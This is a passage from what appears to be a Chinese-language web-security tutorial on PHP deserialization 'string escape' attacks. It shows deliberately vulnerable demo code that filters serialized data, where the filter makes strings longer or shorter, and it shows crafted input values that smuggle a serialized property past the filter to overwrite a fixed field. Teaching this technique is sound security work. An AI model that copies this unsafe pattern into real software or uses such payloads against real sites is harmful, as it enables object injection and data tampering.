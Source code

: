}function filter($a){
    $filter=&#39;/q/i&#39;;
    return preg_replace($filter,&#39;ww&#39;,$a);
}
$a=new A;
var_dump(serialize($a));
echo&#39;&lt;pre&gt;&#39;;
$r=filter(serialize($a));
var_dump($r);
```

得到：

```
string(87) &#34;O:1:&#34;A&#34;:2:{s:1:&#34;a&#34;;s:42:&#34;qqqqqqqqqqqqqqqqqqqqq&#34;;s:1:&#34;b&#34;;s:3:&#34;104&#34;;}&#34;;s:1:&#34;b&#34;;s:2:&#34;21&#34;;}&#34;
string(108) &#34;O:1:&#34;A&#34;:2:{s:1:&#34;a&#34;;s:42:&#34;wwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwww&#34;;s:1:&#34;b&#34;;s:3:&#34;104&#34;;}&#34;;s:1:&#34;b&#34;;s:2:&#34;21&#34;;}&#34;
```

然后再进行反序列化就可以发现，$b的值变成了104。

```
print_r(unserialize($r));
```

**综述：**
让字符&#39;w&#39;占用了原本属于&#34;;s:1:&#34;b&#34;;s:3:&#34;104&#34;}的位置，从而让&#34;;s:1:&#34;b&#34;;s:3:&#34;104&#34;}逃逸出去而成功执行。

#### 过滤后字符变少

源码

```
&lt;?php
function str_rep($string){
    return preg_replace( &#39;/php|test/&#39;,&#39;&#39;, $string);
}

$test[&#39;name&#39;] = $_GET[&#39;name&#39;];
$test[&#39;sign&#39;] = $_GET[&#39;sign&#39;]; 
$test[&#39;number&#39;] = &#39;2020&#39;;
$temp = str_rep(serialize($test));
printf($temp);
$fake = unserialize($temp);
echo &#39;&lt;br&gt;&#39;;
print(&#34;name:&#34;.$fake[&#39;name&#39;].&#39;&lt;pr&gt;&#39;);
print(&#34;sign:&#34;.$fake[&#39;sign&#39;].&#39;&lt;pr&gt;&#39;);
print(&#34;number:&#34;.$fake[&#39;number&#39;].&#39;&lt;pr&gt;&#39;);
?&gt;
```

这段代码是接收了参数name和sign，且number是固定的

经过了序列化=&gt;正则匹配替换字符串减少=&gt;反序列化的过程后输出结果

我们的目的就是通过控制传参name和sign，间接改变number

##### 逃逸方法

sign中传`&#34;;s:6:&#34;number&#34;;s:4:&#34;2000&#34;;}`无法使用

由于sign的字符串个数为27，所以后面的`&#34;;s:6:&#34;number&#34;;s:4:&#34;2000&#34;;}`的payload被当作了字符串sign的值，而没有被当作序列化语句去反序列化
```